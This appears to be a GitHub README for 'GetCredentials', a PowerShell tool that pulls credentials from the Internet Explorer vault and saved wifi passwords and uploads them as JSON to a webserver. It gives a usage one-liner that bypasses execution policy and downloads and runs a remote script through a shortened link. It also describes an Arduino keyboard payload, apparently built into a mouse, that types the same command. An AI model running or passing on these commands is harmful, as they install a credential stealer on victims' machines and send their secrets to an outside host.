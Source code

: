 # GetCredentials
Usage: powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘https://bit.ly/2El9Fyw’)"
Will get wifi credentials

.DESCRIPTION
Performs the following task
    - Get credentials from IE vault
    - Get saved wifi passwords
    - Get host information
    - Write to file to C:\temp\ (if folder exsists)
    - Upload with json to webserver "http://192.168.1.174" by default 
    
 .PARAMETERS
    -output
        Enter output path
        Example: ./GetCredentials.ps1 -output C:\windows\temp\out
    -url
        Enter url where the data will be sent as a json request
        Example: ./GetCredentials.ps1 -url http://192.168.1.174/data

Keyboard_payload.ino works for Arduino leonard with swedish keyboard
Will run IEX (New-Object Net.WebClient).DownloadString("https://bit.ly/2El9Fyw")

![alt text](https://raw.githubusercontent.com/mattiasgrondahl/GetCredentials/master/IntelliMouse30.PNG)
![alt text](https://raw.githubusercontent.com/mattiasgrondahl/GetCredentials/master/IntelliMouse30_assembled.PNG)

#Todo
Figure out how to pass parameters while using IEX to be able to modify -output and -url parameter
